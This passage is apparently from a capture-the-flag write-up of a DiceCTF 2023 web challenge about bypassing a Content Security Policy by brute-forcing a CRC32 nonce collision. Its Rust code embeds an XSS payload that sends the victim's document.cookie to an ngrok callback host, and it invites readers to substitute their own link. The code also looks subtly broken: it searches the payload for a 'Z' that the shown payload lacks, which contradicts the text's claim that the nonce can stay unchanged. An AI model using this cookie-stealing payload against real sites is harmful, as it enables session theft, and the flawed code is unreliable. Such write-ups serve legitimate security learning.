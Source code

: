 This script will loop through hex `0x0` to hex `0xffffffff`, which is from 0 to 4294967295. The reason why we loop through that, is because CRC32 is 32-bit long, or 8 hex characters long. Therefore, we can loop through hex `0x0` to hex `0xffffffff`, to get the hash collision value:

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:06:13(HKT)]
└> python3 brute_force_crc32b.py                                                              
[...]
```

However, using Python to do that would take a very, very long time.

To address this issue, we can use **Rust**.

> Rust is blazingly fast and memory-efficient: with no runtime or garbage collector, it can power performance-critical services, run on embedded devices, and easily integrate with other languages.

- Initialise a new Rust repository:

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:24:12(HKT)]
└> cargo init         
     Created binary (application) package
```

- Modfiy the `src/main.rs`: (The following Rust script is from this challenge's author: strellic, I strongly recommend you to read his [writeup](https://brycec.me/posts/dicectf_2023_challenges#recursive-csp)! Kudos to strellic!)

```rust
use rayon::prelude::*;

fn main() {
    let payload = "<script nonce='f4dbdf21'>document.location='https://6466-{Redacted}.ap.ngrok.io?'+document.cookie</script>".to_string();
    let start = payload.find("Z").unwrap();
    (0..=0xFFFFFFFFu32).into_par_iter().for_each(|i| {
        let mut p = payload.clone();
        p.replace_range(start..start+8, &format!("{:08x}", i));
        if crc32fast::hash(p.as_bytes()) == i {
            println!("{} {i} {:08x}", p, i);
        }
    });
}
```

> Note: Replace your call back link to yours. Also, the nonce can be remain unchanged.

> It creates a range from 0 to $2^{32}$, then uses Rayon to parallelize it. Then, it places the iterator value into the nonce, and checks that the output of `crc32fast::hash` is itself the iterator value. (Once again, from this challenge author's [writeup](https://brycec.me/posts/dicectf_2023_challenges#recursive-csp)).

Then compile it, and run the compiled executable.

After you found the collided hash, you can repeat the same step in the first solution.

# Conclusion

What we've learned:

1. XSS (Cross-Site Scripting) & CSP (Content Security Policy) Bypass Via Insecure Nonce Value